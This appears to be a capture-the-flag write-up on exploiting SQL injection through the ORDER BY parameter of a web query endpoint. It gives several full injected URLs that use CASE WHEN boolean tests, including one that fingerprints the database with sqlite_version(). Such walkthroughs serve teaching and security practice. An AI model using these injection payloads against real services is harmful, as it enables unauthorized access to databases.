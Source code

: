 If you are new to SQL, there are lots of online resources that can help you learn.

My current working assumption is that we can put anything we want as the value of the **ORDER BY** clause.

With a bit of googling, here are some possible resources to help:

https://portswigger.net/support/sql-injection-in-the-query-structure

https://pulsesecurity.co.nz/articles/postgres-sqli

There are LOTS of ways an attacker might go at this point. I'm just going to review how I iniitally approached it.

To start with, lets put this URL in our browser:

https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=category,item_name

This returns JSON ordered by category first, then item_name as espected.

Our first real injection is here:

```
https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=case%20when%20(1=1)%20then%20category%20else%20item_name%20end
```

This says, if **1=1** then order by **category**, otherwise by **item_name**.

The returned JSON is orderd by **category**.

If we change to this:
```
https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=case%20when%20(1=2)%20then%20category%20else%20item_name%20end
```

since **1=2** is FALSE, the returned JSON is ordered by **item_name**.

Cool!

# DB Fingerprinting

At this point, I decided to use the trick we just learned to figure out what DB is being used here.

There are lots of resource online for this.  Here's one: https://www.sqlinjection.net/database-fingerprinting/

The following uses `sqlite_version() = ''` as the BOOLEAN expression:
```
https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=case%20when%20(sqlite_version() = '')%20then%20category%20else%20item_name%20end
```

This returns a 500.

